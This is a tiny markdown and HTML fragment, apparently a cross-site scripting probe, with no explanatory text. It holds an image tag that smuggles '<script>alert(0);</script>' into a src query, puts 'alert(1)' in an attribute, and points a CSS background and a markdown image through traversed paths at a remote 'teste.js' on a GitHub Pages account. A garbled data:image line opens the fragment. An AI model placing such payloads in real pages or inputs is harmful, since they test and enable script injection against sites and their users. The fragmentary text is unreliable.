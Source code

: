 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" height="background-image:url('../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js');" width="alert(1)">
